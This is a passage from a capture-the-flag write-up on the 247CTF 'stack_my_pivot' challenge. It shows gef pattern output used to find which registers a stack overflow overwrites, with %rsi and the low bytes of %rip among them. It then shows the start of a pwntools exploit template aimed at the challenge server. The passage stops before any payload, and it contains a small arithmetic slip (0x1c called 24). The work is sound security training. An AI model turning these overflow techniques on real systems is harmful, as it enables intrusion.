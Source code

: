 Ok let's see what registers we can overwrite.
We now the read is 0x1c so 24.

> pattern create 28
```
[+] Generating a pattern of 28 bytes
aaaaaaaabaaaaaaacaaaaaaadaaa
[+] Saved as '$_gef0
```

We know the first one cannot be overflowed so let's not bother trying it.

> gef➤  c
```
Continuing.
[+] Welcome!
[+] What's your first name?
smth 
[+] What's your surname?
aaaaaaaabaaaaaaacaaaaaaadaaa
```

![alt text](./screenshots/register_overflow.png "register overflow")

So we write *%rsi* and we overwrite the 4 lower bytes of *%rip*, shit.

## Pwntools

Let's start using pwntools:
> pwn template ./stack_my_pivot --host 866e421af4e2b022.247ctf.com --port 50086 > exploit.py

I also like to add 
```
context.terminal = ['tmux', 'splitw', '-h']
```

To make debugging a real pleasure

``` python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ../stack_my_pivot --host 866e421af4e2b022.247ctf.com --port 50086
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('../stack_my_pivot')
context.terminal = ['tmux', 'splitw', '-h']
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '866e421af4e2b022.247ctf.com'
port = int(args.PORT or 50086)
```